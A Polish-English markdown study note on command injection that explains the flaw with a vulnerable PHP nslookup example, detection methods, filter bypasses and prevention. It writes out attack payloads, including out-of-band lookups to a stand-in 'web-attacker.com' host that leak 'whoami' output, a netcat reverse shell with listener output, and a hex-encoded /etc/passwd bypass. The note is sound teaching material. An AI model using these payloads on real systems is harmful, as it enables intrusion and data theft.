

# Command Injection (Wstrzykiwanie polecenia)
Command injection (wstrzyknięcie polecenia) to rodzaj ataku bezpieczeństwa w systemach komputerowych, który polega na wprowadzeniu polecenia do aplikacji.  
Atak polega na tym, że aplikacja, zamiast odpowiednio filtrować dane wejściowe użytkownika, przekazuje je bezpośrednio do systemu operacyjnego lub środowiska wykonawczego, gdzie mogą zostać wykonane jako część polecenia systemowego.  

Warto zwrócić uwagę na "filozofie" danej technologii. Np. w językach takich jak Java tworzenie poleceń, które trzeba wywołać w systemie operacyjnym, jest dosyć nietypowe, można za pomocą klasy java.lang.Runtime, ale aplikacji Javy są projektowane z myślą o uruchamianiu w różnych OS, dlatego poleganie na dostępności funkcji określonych systemów operacyjnych byłoby sprzeczne z tą filozofią.  
Natomiast PHP, które jest zaprojektowane zgodnie z filozofią Uniksa, według której programy powinny wykonywać tylko jedno zadanie i komunikować się ze sobą poprzez strumienie tekstowe.  
Zatem aplikacje PHP często wywołują inne programy poprzez wiersz poleceń. Python i Ruby są często używane do tworzenia skryptów, dzi ęki czemu łatwo za ich pomocą wykonywać polecenia w OS.  

Więc ta luka w zabezpieczeniach wynika z faktu, że aplikacje często korzystają z funkcji języków programowania, takich jak PHP, Python i NodeJS, aby przesyłać dane do systemu operacyjnego maszyny i wykonywać w nim wywołania systemowe.
Przykład: Witryna, która wykonuje polecenie `nslookup` aby rozwiązywać nazwy domen i adresy IP.
```
<?php
    if (isset($_GET['domain'])) {
    echo ',pre.';
    $domain = $_GET['domain'];
    $lookup = system("nslookup {$domain}");
    echo($lookup);
    echo '</pre>';
  }
?>
```
Atak:  
`google.com && echo "HAXXED"`
Wysyłany jest parametr domain o wartość google.com + && echo "HAXXED".  
`&&` w Uniksie służą do łączenia osobnych poleceń. Ponieważ nie ma w kodzie mechanizmu ucieczki dla znaków kontrolnych w tym scenariuszu zostaną wykonane dwa polecenia:  
oczekiwane polecenie `nslookup`, które poszuka domeny google.com, a następnie wstrzyknięte zostanie polecenie `echo "HAXXED"`.  

## Exploiting Command Injection
Command injection can often be identified by analyzing an application's behavior, especially when user input is used to execute system commands. Shell operators like `;`, `&`, and `&&` can allow unintended command execution.

There are two main types of command injection:

**Blind command injection** – where the output is not directly visible, the  vulnerable application that does not return the output from the command within its HTTP response.  
**Verbose command injection or In-band command injection** – where the results are displayed.

### Detecting Blind Command Injection
Detection methods:  
1. **Time-based testing** – Using commands like `ping` or `sleep` to introduce a delay and observe if the application hangs.  
2. **Forced output** – Redirecting command output (`whoami`) to a file using `>` and then retrieving it with `cat`.  
3. **Using curl** – Sending data to and from an application to test for injection vulnerabilities. Eg: `curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`  

Testing can be complex, as syntax varies between Linux and Windows, requiring experimentation.  
Examples:  
Trigger a time delay:  
`127.0.0.1 && sleep 10 &`
`127.0.0.1 && ping -c 10 127.0.0.1 &`  
Output the response of the command in the web root and retrieve the file directly using a browser:  
`127.0.0.1 & whoami > /var/www/static/whoami.txt &`  
Open an out-of-band channel back to a server you control:  
`127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &`
`127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &`

### Detecting Verbose Command Injection
**Verbose command injection** is easier to detect since the application provides visible output when commands are executed. For example, commands like `whoami` or `ping` display their results directly on the web application.  

### Bypassing Filters
Applications will employ numerous techniques in filtering and sanitising data that is taken from a  user's input. These filters will restrict you to specific payloads; however, we can abuse the logic behind an application to bypass these filters. For example, an application may strip out quotation marks; we can instead use the hexadecimal value of this to achieve the same result.

When executed, although the data given will be in a different format than what is expected, it can still be interpreted and will have the same result.  
`$payload=\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

### Useful payloads for testing:
Shell metacharacters: `&`, `&&`, `|`, `||`, `;`, `\n`, \`, `$()` for command concatenation.  
Useful payloads for testing:  
**Linux:**  
- `whoami` – Check the user under which the application is running.  
- `ls` – List directory contents to find valuable files.  
- `ping` / `sleep` – Test for blind command injection by causing delays.  
- `nc` – Spawn a reverse shell for deeper exploitation.  

**Windows:**  
- `whoami` – Identify the running user.  
- `dir` – List directory contents for useful files.  
- `ping` / `timeout` – Test for blind command injection by introducing delays.
___
## Establishing remote control
Let say that we have an application that  provides the ability to send ping packets to a host.  
The IP address or the host name is expected as input. 



This web page is susceptible to command injections, and we  can easily establish a remote connection
 to a remote computer. This way, shell access to the web server is possible. The following
 input sends a remote shell to the attacker’s IP address:  

`8.8.8.8;nc-n <IP attacker> 7777-e /bin/sh`  

 Before that, we must start a listener on port 7777:  
```
root@kali:~# nc-lnvp 7777
listening on [any] 7777 ...
connect to [192.168.218.164] from (UNKNOWN) [192.168.218.163]
whoami
 www-data
id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
 /var/www/html/websec/command_injection
```
Command injection attacks can be easily automated using tools such as [Commix](https://github.com/commixproject/commix)  
TODO dodać przykład zdalnej powłoki ze studiów biały pas
## **Preventing Command Injection**
Command injection can be mitigated through careful coding practices, such as limiting the use of dangerous functions and properly sanitizing user input.  

**Vulnerable Functions in PHP**  
Certain PHP functions, like `exec`, `passthru`, and `system`, execute commands directly in the shell. If user input is passed to these functions without validation, the application becomes vulnerable.  

**Input Sanitization**  
A key defense is **sanitizing user input**, ensuring only expected data formats are accepted. For example:  
- Restricting input to numbers only.  
- Removing special characters (`>`, `&`, `/`).  
- Using functions like `filter_input` to validate input types.  

**Przestrzeganie zasady najmniejszych uprawnień, aby ograniczyć skutki pomyślnego ataku.**
___
## Dodatkowe informacje
[command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)  
[Commix](https://github.com/commixproject/commix)
___
## Sources
- tryhackme, SQL Injection, https://tryhackme.com/r/room/sqlinjectionlm.
- M. McDonald, Bezpieczeństwo Aplikacji Internetowych dla Programistów, 2021 Helion S.A.
- M. Kofler et all, Hacking and Security The Comprehensive Guide to Penetration Testing and Cybersecurity, Rheinwerk Publishing 2023
- R. Khalil, Command Injection | Complete Guide, https://www.youtube.com/@RanaKhalil101.